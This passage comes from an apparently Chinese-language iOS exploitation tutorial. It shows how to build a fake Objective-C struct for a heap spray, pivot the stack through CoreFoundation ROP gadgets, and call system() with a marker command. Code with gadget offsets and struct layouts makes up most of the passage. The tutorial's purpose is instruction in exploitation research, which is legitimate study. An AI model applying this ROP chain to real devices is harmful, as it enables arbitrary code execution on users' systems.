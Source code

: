 因为进行stack pivot需要控制r4寄存器，但最开始我们只能控制r0，因此我们先找一个gadget把r0的值赋给r4，然后再调用stack pivot gadget：

```
/*
    0x2dffc0ee: 0x4604    mov    r4, r0
    0x2dffc0f0: 0x6da1    ldr    r1, [r4, #0x58]
    0x2dffc0f2: 0xb129    cbz    r1, 0x2dffc100    ; <+28>
    0x2dffc0f4: 0x6ce0    ldr    r0, [r4, #0x4c]
    0x2dffc0f6: 0x4788    blx    r1
*/
hs->fake_cache_bucket.cached_function = CoreFoundation_base + 0x0009e0ee + 1; //fake_struct.stack_pivot_ptr
NSLog(@"hs->fake_cache_bucket.cached_function  = 0x%08x", (uint32_t)(CoreFoundation_base+0x0009e0ee));

```

经过stack pivot后，我们控制了栈和其他的寄存器，随后我们就可以调用想要执行的函数了，比如说用system指令执行”`touch /tmp/iceandfire`”。当然我们也需要找到相应的gadget，并且在栈上对应的正确地址上放入相应寄存器的值：

```
// 0x00000000000d3842 : mov r0, r4 ; mov r1, r5 ; blx r6

strcpy(hs->command, "touch /tmp/ iceandfire");
hs->r4=(uint32_t)&hs->command;
hs->r6=(void *)dlsym(RTLD_DEFAULT, "system");
hs->pc = CoreFoundation_base+0xd3842+1;
NSLog(@"hs->pc = 0x%08x", (uint32_t)(CoreFoundation_base+0xd3842));

```

最终我们伪造的Objective-C的结构体构造如下：

```
struct heap_spray {
    void* fake_objc_class_ptr;
    uint32_t r10;
    uint32_t r4;
    uint32_t r5;
    uint32_t r6;
    uint32_t r7;
    uint32_t pc;
    uint8_t pad1[0x3c];
    uint32_t stack_pivot;
    struct fake_objc_class_t {
        char pad[0x8];
        void* cache_buckets_ptr;
        uint32_t cache_bucket_mask;
    } fake_objc_class;
    struct fake_cache_bucket_t {
        void* cached_sel;
        void* cached_function;
    } fake_cache_bucket;
    char command[1024];
};

```
